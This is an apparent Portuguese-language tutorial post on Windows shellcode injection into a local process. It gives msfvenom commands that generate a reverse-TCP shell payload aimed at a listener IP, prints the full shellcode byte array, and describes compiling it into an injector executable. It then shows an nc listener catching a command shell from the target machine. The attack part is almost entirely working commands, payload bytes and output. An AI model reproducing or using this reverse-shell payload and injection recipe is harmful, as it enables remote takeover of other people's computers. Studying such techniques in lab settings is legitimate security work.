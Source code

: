 ```yaml
---
title: Code Injection 0x00
category: post
---
```


## Windows CreateRemoteThread Shellcode Injection and Execution in Local Process

Esse é o clássico Shellcode Injection que fazemos no módulo/processo local do próprio binário compilado com os 
bytes do shellcode. 

Quando o shellcode for executado com sucesso, ganhamos acesso na máquina alvo; Conforme PoC a seguir:

---


### Step 1 

- Gerar os bytes do shellcode para Windows x86, apontando para o IP do computador que vai ganhar o acesso.

		msfconsole
		msfvenom -p windows/shell_reverse_tcp LHOST=192.168.10.113 LPORT=1234 -f c -b \x00\x0a\x0d


- Ou Gerar os bytes do shellcode para Windows x64, apontando para o IP do computador que vai ganhar o acesso.

		msfconsole
		msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.10.113 LPORT=1234 -f c -b \x00\x0a\x0d


- Após rodar o comando acima com sucesso, teremos os bytes do shellcode na tela. Exemplo :

		unsigned char buf[] =
		"\x33\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
		"\xfb\x25\xeb\xf6\x83\xee\xfc\xe2\xf4\x07\xcd\x69\xf6\xfb\x25"
		"\x8b\x7f\x1e\x14\x2b\x92\x70\x75\xdb\x7d\xa9\x29\x60\xa4\xef"
		"\xae\x99\xde\xf4\x92\xa1\xd0\xca\xda\x47\xca\x9a\x59\xe9\xda"
		"\xdb\xe4\x24\xfb\xfa\xe2\x09\x04\xa9\x72\x60\xa4\xeb\xae\xa1"
		"\xca\x70\x69\xfa\x8e\x18\x6d\xea\x27\xaa\xae\xb2\xd6\xfa\xf6"
		"\x60\xbf\xe3\xc6\xd1\xbf\x70\x11\x60\xf7\x2d\x14\x14\x5a\x3a"
		"\xea\xe6\xf7\x3c\x1d\x0b\x83\x0d\x26\x96\x0e\xc0\x58\xcf\x83"
		"\x1f\x7d\x60\xae\xdf\x24\x38\x90\x70\x29\xa0\x7d\xa3\x39\xea"
		"\x25\x70\x21\x60\xf7\x2b\xac\xaf\xd2\xdf\x7e\xb0\x97\xa2\x7f"
		"\xba\x09\x1b\x7a\xb4\xac\x70\x37\x00\x7b\xa6\x4d\xd8\xc4\xfb"
		"\x25\x83\x81\x88\x17\xb4\xa2\x93\x69\x9c\xd0\xfc\xda\x3e\x4e"
		"\x6b\x24\xeb\xf6\xd2\xe1\xbf\xa6\x93\x0c\x6b\x9d\xfb\xda\x3e"
		"\xa6\xab\x75\xbb\xb6\xab\x65\xbb\x9e\x11\x2a\x34\x16\x04\xf0"
		"\x7c\x9c\xfe\x4d\x2b\x5e\xf1\x54\x83\xf4\xfb\x21\x39\x7f\x1d"
		"\x4f\xfb\xa0\xac\x4d\x72\x53\x8f\x44\x14\x23\x7e\xe5\x9f\xfa"
		"\x04\x6b\xe3\x83\x17\x4d\x1b\x43\x59\x73\x14\x23\x93\x46\x86"
		"\x92\xfb\xac\x08\xa1\xac\x72\xda\x00\x91\x37\xb2\xa0\x19\xd8"
		"\x8d\x31\xbf\x01\xd7\xf7\xfa\xa8\xaf\xd2\xeb\xe3\xeb\xb2\xaf"
		"\x75\xbd\xa0\xad\x63\xbd\xb8\xad\x73\xb8\xa0\x93\x5c\x27\xc9"
		"\x7d\xda\x3e\x7f\x1b\x6b\xbd\xb0\x04\x15\x83\xfe\x7c\x38\x8b"
		"\x09\x2e\x9e\x1b\x43\x59\x73\x83\x50\x6e\x98\x76\x09\x2e\x19"
		"\xed\x8a\xf1\xa5\x10\x16\x8e\x20\x50\xb1\xe8\x57\x84\x9c\xfb"
		"\x76\x14\x23";


### Step 2

- Abrir o código fonte que já montei referente a arquitetura que geramos o shellcode acima.

		injectlocal.cpp

- Depois de copiar os bytes gerados pelo msfvenom no Step 1, devemos colar esses bytes no conteúdo da variável 
_unsigned char shellcode[] = ""_ do código fonte , e depois compilar-lo.

- Ao compilar o software com sucesso teremos os executáveis prontos para uso.

		injectlocal.exe


### Step 3


- Abrir a porta que colocamos como argumento no msfvenom para gerar o shellcode, no computador que tem o IP que também colocamos como argumento no msfvenom para gerar o shellcode 

		nc -vlp 1234


- Então assim que o binário que injeta o shellcode for executado, devemos ganhar o acesso no alvo.

		listening on [any] 1234 ...
		192.168.10.109: inverse host lookup failed: Host name lookup failure
		connect to [192.168.10.113] from (UNKNOWN) [192.168.10.109] 49173
		Microsoft Windows [vers�o 6.1.7600]
		Copyright (c) 2009 Microsoft Corporation. Todos os direitos reservados.

		C:\Users\VBOX_7\Desktop>



